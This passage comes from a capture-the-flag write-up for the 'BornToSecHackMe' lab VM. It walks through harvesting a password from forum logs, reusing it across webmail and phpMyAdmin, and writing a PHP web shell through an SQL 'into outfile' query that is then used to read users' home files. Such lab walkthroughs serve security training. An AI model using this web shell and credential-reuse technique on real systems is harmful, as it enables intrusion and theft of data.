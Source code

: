 4. **Get our first identifiants**
With the previous info information, we decided to check the following link :
`[https://192.168.56.104/forum](https://192.168.56.104/forum)`

    In particular, the topic `Probleme login ?` caught our attention.

    It look like logs of connection. We looked for `invalid user` in the page, and at some points we found what could look like a password : 

    Oct 5 08:45:29 BornToSecHackMe sshd[7547]: 
    Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2

    With this password, we can connect as `lmezard` on the same forum.
    `lmezard:!q\]Ej?*5K5cy*AJ`

    Going throught the profile of lmezard, we discover her mail, which is : `laurie@borntosec.net`
    So we tried to connect to [mailbox](https://192.168.56.104/webmail/src/login.php) found previously with a nmap with the same password we found previouly (`laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`)

    We find two mails, one containing the identifiants to the database.
    We tried to connect to [phpmyadmin](https://192.168.56.104/phpmyadmin/) with `root:Fg-'kKXBj87E:aJ$`

5. **Get a look inside the VM**

Once we are inside phpmyadmin, (and after a lot of digging to find a writable directory), we can create an SQL request that will execute for us any command :

```sql
select '<?php system($_GET["cmd"]); ?>'into outfile '/var/www/forum/templates_c/cmd.php'#
```

After some other digging, we find some other [identifiants](https://192.168.56.104/forum/templates_c/cmd.php?cmd=cat%20/home/*/*).

6. **Get access to our first step treasure hunt**

We tried to connect to the different port we found earlier with `nmap`. And we manage to connect to the ftp port : `ftp 192.168.56.104 21`
and we connect with the following `lmezard:G!@M6f4Eatau{sF"`

With a `ls` one we are connected, we can see 2 files that we want to get. We can do so by the following command inside the `ftp client`

`mget README fun`

7. **Solving the first step**

With a simple `file fun` we see that it's a tar archive that untar : `tar -xf fun`

Looking through some of the file, it looks like a part of a C code, with a comment in the end `//filexxx` , it looked like we had to merge every file, once we ordered them.
So we created a python script to do so. (python scripts/writeup1/)

You just have to use `python3 solve_lmezard.py /path/to/ft_fun` and it will output 

MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit

As it is asked, we get a password : `echo -n "Iheartpwnage" | sha256sum`
